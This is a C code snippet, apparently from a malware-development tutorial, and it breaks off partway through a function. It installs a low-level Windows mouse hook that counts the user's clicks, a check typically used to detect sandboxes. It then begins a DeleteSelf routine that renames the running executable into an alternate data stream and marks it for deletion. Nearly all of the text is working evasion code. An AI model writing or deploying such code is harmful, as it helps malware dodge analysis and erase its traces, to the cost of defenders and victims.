 ```c

// The callback function that will be executed whenever the user clicked a mouse button
LRESULT CALLBACK HookEvent(int nCode, WPARAM wParam, LPARAM lParam) {

    if (wParam == WM_LBUTTONDOWN || wParam == WM_RBUTTONDOWN || wParam == WM_MBUTTONDOWN) {
        printf("[+] Mouse Click Recorded \n");
        g_dwMouseClicks++;
    }

    return CallNextHookEx(g_hMouseHook, nCode, wParam, lParam);
}



BOOL MouseClicksLogger() {

    MSG 	Msg = { 0 };

    // Installing hook 
    g_hMouseHook = SetWindowsHookExW(
        WH_MOUSE_LL,
        (HOOKPROC)HookEvent,
        NULL,
        NULL
    );
    if (!g_hMouseHook) {
        printf("[!] SetWindowsHookExW Failed With Error : %d \n", GetLastError());
    }

    // Process unhandled events
    while (GetMessageW(&Msg, NULL, NULL, NULL)) {
        DefWindowProcW(Msg.hwnd, Msg.message, Msg.wParam, Msg.lParam);
    }

    return TRUE;
}


BOOL DeleteSelf() {


	WCHAR				    szPath[MAX_PATH * 2] 	    = { 0 };
	FILE_DISPOSITION_INFO	Delete 			    	    = { 0 };
	HANDLE				    hFile 			    	    = INVALID_HANDLE_VALUE;
	PFILE_RENAME_INFO		pRename 		    	    = NULL;
	const wchar_t* 			NewStream 		    	    = (const wchar_t*)NEW_STREAM;
	SIZE_T				    sRename 		    	    = sizeof(FILE_RENAME_INFO) + sizeof(NewStream);

	// Allocating enough buffer for the 'FILE_RENAME_INFO' structure
	pRename = HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, sRename);
	if (!pRename) {
		printf("[!] HeapAlloc Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	// Cleaning up the structures
	ZeroMemory(szPath, sizeof(szPath));
	ZeroMemory(&Delete, sizeof(FILE_DISPOSITION_INFO));

	//--------------------------------------------------------------------------------------------------------------------------
	// Marking the file for deletion (used in the 2nd SetFileInformationByHandle call) 
```